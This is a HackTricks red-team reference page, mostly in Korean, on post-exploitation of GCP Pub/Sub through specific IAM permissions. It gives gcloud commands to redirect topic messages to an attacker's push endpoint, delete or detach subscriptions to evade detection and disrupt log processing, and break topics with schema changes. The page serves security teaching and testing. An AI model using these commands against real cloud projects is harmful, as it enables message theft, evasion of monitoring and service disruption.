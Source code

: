 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub에 대한 자세한 정보는 다음 페이지를 확인하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

주제에 메시지를 게시합니다. **예상치 못한 데이터**를 전송하고 예상치 못한 기능을 트리거하거나 취약점을 악용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

구독이 메시지를 받지 않도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

구독이 메시지를 받지 못하도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.\
구독이 연결된 상태에서도 주제를 삭제하는 것이 가능합니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 주제를 방해하기 위해 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 설정을 업데이트합니다.

### `pubsub.topics.setIamPolicy`

이전 공격을 수행할 수 있는 권한을 부여합니다.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 이를 사용하여 **메시지를 가져옵니다**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템이나 유사한 것을 방해하는 데 유용할 수 있습니다:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 위치(URL, Big Query 테이블, 버킷)에 저장되도록 일부 설정을 업데이트하거나 단순히 방해할 수 있습니다.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

자신에게 이전에 언급된 공격을 수행하는 데 필요한 권한을 부여합니다.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

스키마를 주제에 연결하여 메시지가 이를 충족하지 않도록 하여 주제가 중단되도록 합니다.\
스키마가 없다면 하나를 생성해야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

이것은 스키마를 삭제하는 것처럼 보일 수 있지만, 스키마를 충족하지 않는 메시지를 보낼 수 있습니다. 그러나 스키마가 삭제되므로 실제로는 어떤 메시지도 주제에 들어가지 않습니다. 따라서 이것은 **무의미합니다**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

필요한 권한을 부여하여 이전에 언급된 공격을 수행할 수 있습니다.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

이것은 모든 unACKed 메시지의 스냅샷을 생성하고 이를 구독으로 다시 넣습니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
